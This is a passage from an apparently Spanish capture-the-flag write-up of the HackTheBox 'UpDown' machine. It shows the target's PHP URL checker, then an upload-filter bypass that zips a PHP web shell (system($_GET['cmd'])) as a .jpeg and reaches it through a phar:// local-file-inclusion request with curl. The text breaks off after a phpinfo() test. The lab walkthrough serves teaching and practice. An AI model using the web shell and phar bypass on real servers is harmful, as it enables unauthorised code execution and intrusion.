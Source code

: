 ```php
        if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
            $check=isitup($site);
            if($check){ echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
            }else{ echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";}   
        }else{ echo "<center><font color='red'>Hacking attempt was detected !</font></center>";}}
    
  // Lo borra
    @unlink($final_path);}
?>
```
Si subo una lista de webs como me piden (webs.txt):
```
http://localhost:80  
http://10.10.14.14  
http://10.10.14.14/test.txt  
```
Me llegan peticiones al igual que la web original:  
- Si cambio a webs.php -> extension not allowed  
- En /uploads/ encuentro un archivo md5 pero esta vacio.   
- Si creamos un "<?php system($_GET['cmd']); ?>" y lo ponemos como shell.txt se sube pero obviamente no se ejecuta. 

Queda tirar de la vulnerabilidad "phar"
```console  
└─$ zip shell.jpeg shell.php   # shell php -> <?php system($_GET[‘cmd’]); ?> 
└─$ file shell.jpeg    # shell.cucuxii: Zip archive data   # Aunque tenga la extension jpeg esto es un zip.
```
En /uploads aparece un nuevo directorio, ahi dentro está shell.jpeg  
![](/assets/images/htb-updown/updown5.PNG)

Si accedemos con el wrapper phar:// con el LFI al archivo de dentro (shell.php que es shell porque concatena ello solo el .php)  
> phar://ruta_del_archivo_madre(shell.jpeg)/archivo_hijo(shell)/     
```console
└─$ curl -s -H "Special-Dev: only4dev" 'http://dev.siteisup.htb/?page=phar://uploads/1526e941f20f74050a82951a5bda79e2/shell.jpeg/shell' -I
HTTP/1.0 500 Internal Server Error
```
El error 500 se debe a que hay una funcion prohibida.  
Si cambiamos el contenido de shell.php a  ```<?php phpinfo(); ?>"``` y  repetimos el proceso tenemos el documento en la web:  
